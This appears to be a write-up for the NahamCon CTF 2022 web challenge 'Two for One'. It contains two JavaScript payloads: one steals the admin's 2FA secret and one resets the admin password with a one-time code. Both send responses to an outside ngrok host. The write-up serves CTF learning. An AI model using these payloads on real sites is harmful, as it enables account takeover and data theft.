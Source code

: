 ```yaml
---
name: Two for One (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Two for One (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Two for One

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=1906 "NahamCon CTF 2022: Two for One")

## Description

> Need to keep things secure? Try out our safe, the most secure in the world!

## Solution

#### 2fa_exfil.js

{% code overflow="wrap" %}
```js
// Extract 2fa code from admin, can then generate QR code for GAuth (update the secret)
// https://www.google.com/chart?chs=200x200&chld=M%7C0&cht=qr&chl=otpauth://totp/Fort%20Knox:admin?secret=APJ5VXIQVMM5UF6X&issuer=Fort%20Knox
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://challenge.nahamcon.com:30666/reset2fa", true);
xhr.withCredentials = true;
xhr.onload = function () {
    var flag = btoa(xhr.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://b6a5-81-103-153-174.ngrok.io/?flag=" + flag);
    exfil.send();
};
xhr.send();
```
{% endcode %}

#### reset_pw.js

{% code overflow="wrap" %}
```js
// Reset admin password
var http = new XMLHttpRequest();
var url = "http://challenge.nahamcon.com:30666/reset_password";
var data = JSON.stringify({
    password: "admin",
    password2: "admin",
    otp: "661035",
});
http.open("POST", url, true);

// Not actually needed, just for debugging
http.onload = function () {
    var flag = btoa(http.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://b6a5-81-103-153-174.ngrok.io?flag=" + flag);
    exfil.send();
};

http.setRequestHeader("Content-type", "application/json");

http.send(data);
```
{% endcode %}
